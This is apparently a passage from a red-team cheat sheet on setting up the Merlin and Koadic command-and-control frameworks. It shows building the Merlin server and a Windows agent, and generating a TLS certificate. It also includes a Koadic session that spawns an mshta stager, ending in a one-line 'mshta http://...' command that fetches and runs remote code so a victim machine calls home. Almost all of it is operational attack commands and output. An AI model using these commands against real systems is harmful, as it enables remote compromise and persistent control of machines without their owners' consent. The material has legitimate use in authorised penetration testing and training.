 ## Merlin

Compile and run server

```
$ cd merlin/cmd/merlinserver
$ go build
$ sudo ./merlinServer-Linux-x64 -i 192.168.1.11 -p 8443
```

Compile agent

```
$ cd merlin/cmd/merlinagent
$ sudo GOOS=windows GOARCH=386 go build
```


Generate Certificate

```
$ cd merlin/data/x509
$ openssl req -x509 -newkey rsa:4096 -sha256 -nodes -keyout server.key -out server.crt -subj "/CN=lab.com" -days 365
```

## Koadic

```
$ cd koadic
$ ./koadic
                           / \
     _                   _ | |
    | | _____   __ _  __| || |  ___
    | |/ / _ \ / _` |/ _` ||.| / __|
    |   / (o) | (_| | (_| ||.|| (__
    |_|\_\_^_/ \__,_|\__,_||:| \___|
                           |:|
                        ~\==8==/~
                            8
                            O

        -{ COM Command & Control }-
      Windows Post-Exploitation Tools
             Endless Intellect

            ~[ Version:  0xA ]~
            ~[ Stagers:    5 ]~
            ~[ Implants:  33 ]~

(koadic: sta/js/mshta)$ info

        NAME        VALUE               REQ     DESCRIPTION     
        -----       ------------        ----    -------------   
        SRVHOST     192.168.1.11        yes     Where the stager should call home
        SRVPORT     9999                yes     The port to listen for stagers on
        EXPIRES                         no      MM/DD/YYYY to stop calling home
        KEYPATH                         no      Private key for TLS communications
        CERTPATH                        no      Certificate for TLS communications
        MODULE                          no      Module to run once zombie is staged

(koadic: sta/js/mshta)$ set SRVPORT 1245
[+] SRVPORT => 1245
(koadic: sta/js/mshta)$ run 
[+] Spawned a stager at http://192.168.1.11:1245/c26qp
[!] Don't edit this URL! (See: 'help portfwd')
[>] mshta http://192.168.1.11:1245/c26qp
```